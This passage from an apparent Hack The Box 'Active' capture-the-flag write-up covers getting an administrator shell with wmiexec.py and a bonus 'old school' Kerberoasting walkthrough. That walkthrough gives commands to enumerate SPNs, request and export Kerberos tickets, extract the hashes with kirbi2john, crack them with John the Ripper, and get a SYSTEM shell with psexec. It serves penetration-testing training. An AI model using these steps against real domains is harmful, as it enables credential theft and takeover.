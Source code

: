 Impacket’s **wmiexec.py** can be used to get a shell as **active\administrator**, and gain *root.txt*.

***

**Bonus: The “Old School” Kerberoasting Technique**

There are many ways of kerberoasting from Windows and Linux, and Tim Medin’s original Kerberoasting technique is replicated below, which leverages functionality in Benjamin Delpy’s Mimikatz to export the Kerberos tickets.
im Medin’s “kerberoast” repo (below) has been used as reference.
<https://github.com/nidem/kerberoast>
***

From a domain joined computer, available SPNs and associated accounts can be enumerated

using the Windows built-in utility **setspn.exe**.

```
setspn.exe -T active.htb -F -Q \*/\*
```

**The tickets are then requested and extracted from RAM.**

```
Add-Type -AssemblyName System.IdentityModel

New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken
-ArgumentList "active/CIFS:445"
```

The **.kirbi Kerberos tickets** can be collected in a zip file before transferring (PowerShell 3.0+).
```
Add-Type -Assembly "System.IO.Compression.FileSystem"

[System.IO.Compression.ZipFile]::CreateFromDirectory("c:\temp\kirbi\", c:\temp\kirbi.zip")
```


**kirbi2john.py** (based on Tim Medin’s script) is used to** extract the hashes from kirbi files**. 

The Jumbo version of John the Ripper cracks the hash quickly.

```
/opt/JohnTheRipper/run/kirbi2john.py 1-40a00000-svc\_tgs@active~CIFS~445-ACTIVE.HTB.kirbi > hashes.txt

/opt/JohnTheRipper/run/john --format:krb5tgs hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
````

The venerable sysadmin tool **psexec.exe** is used to get a shell as SYSTEM using the gained Domain Admin credentials.


